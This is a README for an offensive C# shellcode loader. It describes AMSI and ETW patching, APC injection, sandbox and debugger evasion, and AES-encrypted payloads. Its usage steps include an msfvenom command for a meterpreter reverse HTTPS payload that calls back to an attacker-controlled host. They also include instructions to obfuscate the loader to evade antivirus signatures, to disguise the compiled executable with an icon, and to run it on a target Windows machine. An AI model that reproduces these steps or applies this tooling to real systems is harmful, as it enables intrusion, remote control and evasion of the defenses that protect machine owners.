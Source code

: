 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AES-256 Shellcode Encryption (CBC Mode)
  - AMSI bypass (patching 'AmsiScanBuffer')
  - ETW bypass (user-mode / patching 'EtwEventWrite')
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Shellcode Loader with file input support
    - the loader accepts a local text file containing an AES-256 encrypted and Base64-encoded C# shellcode as input.
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
--------
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o csharp_stageless-shellcode

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2.  Use the tool "Shellcode-Crypter-and-Encoder.exe" to encrypt your shellcode using AES-256, then encode the encrypted output in Base64 format and save the result to a file.
 ```
C:\Temp> Shellcode-Crypter-and-Encoder.exe
[*] Usage:
    > Shellcode-Crypter-and-Encoder.exe <path_to_C#_shellcode_file> <AES key>
[*] Example:
    > Shellcode-Crypter-and-Encoder.exe Csharp_shellcode.txt SuperAesKey > Encrypted_and_bas64encoded_shellcode.txt
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Etc.

  - STEP 4. Compile the C# shellcode loader  
    <i/> Note: Adding an icon file and assembly attributes can make your executable appear more legitimate. </i>
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    > csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Execute the shellcode loader on a target Windows server or laptop
```
[*] Usage :
    > loader.exe <domain name> <C:\filepath\Encrypted_and_bas64encoded_shellcode.txt> <AES key>
[*] Example:
    > loader.exe lab.local C:\temp\Encrypted_and_bas64encoded_shellcode.txt SuperAesKey
[*] Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey to decrypt the shellcode.
``` 
#### LICENSE
  - GNU General Public License v3.0
